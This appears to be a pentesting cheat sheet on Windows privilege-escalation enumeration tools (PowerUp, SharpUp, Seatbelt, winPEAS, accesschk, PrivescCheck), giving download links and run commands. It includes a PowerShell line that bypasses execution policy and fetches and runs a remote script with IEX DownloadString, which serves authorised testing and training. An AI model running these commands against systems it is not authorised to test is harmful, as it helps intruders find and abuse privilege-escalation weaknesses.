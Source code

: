 # Automated Enumeration Scripts

### Power Up:

```bash
wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1
```

To run PowerUp, start a PowerShell session and **use dot sourcing to load the script:**

```batch
CMD> powershell -exec bypass
# Run the Invoke-AllChecks function to start checking for common privilege escalation misconfigurations.
C:\> powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"
```

### **SharpUp: (If Powershell is not available)** <a href="#sharpup-if-powershell-is-not-available" id="sharpup-if-powershell-is-not-available"></a>

PowerUp & SharpUp are very similar tools that hunt for specific privilege escalation misconfigurations.

```batch
# Code: https://github.com/GhostPack/SharpUp
# Pre-Copiled: https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpUp.exe
```

To run SharpUp, start a command prompt and run the executable:

```batch
.\SharpUp.exe
```

## Seatbelt&#x20;

Seatbelt is an enumeration tool. It contains a number of enumeration checks.

It does not actively hunt for privilege escalation misconfigurations, but provides related information for further investigation.

```
# Code: https://github.com/GhostPack/Seatbelt

# Pre-Compiled: https://github.com/r3motecontrol/Ghostpa-CompiledBinaries/blob/master/Seatbelt.exe
```

To run **all checks** and filter out unimportant results:&#x20;

```
.\Seatbelt.exe all
```

To run **specific check(s):**

```
.\Seatbelt.exe <check> <check>
```

## winPEAS

winPEAS is a very powerful tool that not only actively hunts for privilege escalation misconfigurations, but highlights them for the user in the results.

```
# Code: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
```

Before running, we need to add a registry key and then reopen the command prompt:

```batch
reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

Run all checks while avoiding time-consuming searches:

```batch
.\winPEASany.exe quiet cmd fastch
```

Run specific check categories:

```batch
.\winPEASany.exe quiet cmd systeminfo
```

## accesschk.exe

AccessChk is an old but still trustworthy tool **for checking user access control rights.**

You can use it to check whether a user or group has access to files, directories, services, and registry keys.

The downside is more recent versions of the program spawn a GUI “accept EULA” popup window. When using the command line, we have to use an older version which still has an **/accepteula** command line option.

```
https://xor.cat/assets/other/Accesschk.zip
```

**Always do this first**

```batch
accesschk.exe /accepteula (always do this first!!!!!)
```

**Find all weak file permission per drive.**

```batch
accesschk.exe -uwqs Users c:\*.*

accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

**Find all weak folder permission per drive**

```batch
accesschk.exe -uwdqs Users c:\

accesschk.exe -uwdqs "Authenticated Users" c:\
```

## PrivescCheck

This script aims to **enumerate common Windows configuration issues** that can be leveraged for local privilege escalation. It also **gathers various information** that might be useful for **exploitation** and/or **post-exploitation**.\


```powershell
C:\Temp\>powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
# From cmd

PS C:\Temp\> Set-ExecutionPolicy Bypass -Scope process -Force
PS C:\Temp\> . .\PrivescCheck.ps1; Invoke-PrivescCheck
# From powershell

C:\Temp\>powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended"
# By default, the scope is limited to vulnerability discovery but, you can get a lot more information with the -Extended option
```
